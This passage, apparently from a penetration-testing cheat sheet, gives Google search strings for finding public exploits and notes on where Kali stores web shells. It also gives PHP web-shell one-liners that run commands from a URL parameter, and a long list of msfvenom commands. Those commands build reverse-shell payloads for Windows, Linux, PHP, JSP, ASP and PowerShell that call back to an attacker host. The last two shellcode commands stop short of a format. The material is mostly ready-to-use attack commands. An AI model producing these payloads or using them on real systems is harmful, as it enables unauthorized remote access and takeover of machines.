 ### Find Exploits using Google 
Three kind of search should be enough to find an working exploit
```
service_version Exploit
site: github.com service_version exploit
site: exploit-db.com service_version exploit
```

### Working with Public Exploits 
A public exploit might be coded in python, ruby, c/c++ or any other language. Before executing the exploit:

Read the instruction Carefully.
Edit Target address, Reverse connection ip and Ports.

## Working with Shell 
We have exploited vulnerability and got shell. Now what? Upgrade shell? Privilege escaltion? Fix shell issue?

### Backdoor Files in Kali 
Kali already has some web shells.
```
/usr/share/webshells
```

### Quick Shell in Different language 
Here it is: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
<?php system("whoami"); ?>
<?php system($_GET['cmd']); ?>
<?php echo exec("whoami");?>
```

### Generate using msfvenom 
```
#Staged windows Payload
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > reverse-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > reverse-x64.exe

#Stageless Windows payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > reverse-x86.exe

#Linux Stageless Payload
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > reverse-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > reverse-x64.elf

#Linux Staged Payload
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > reverse-x86.elf
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > reverse-x64.elf

#Other Platform
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > reverse.php
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > reverse.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > reverse.jsp
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > reverse.asp

#Generate powershell payload
msfvenom -p windows/x64/powershell_reverse_tcp -o psh.ps1 -a x64 --platform windows LHOST=192.168.88.251 LPORT=8080

#Generate Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f
```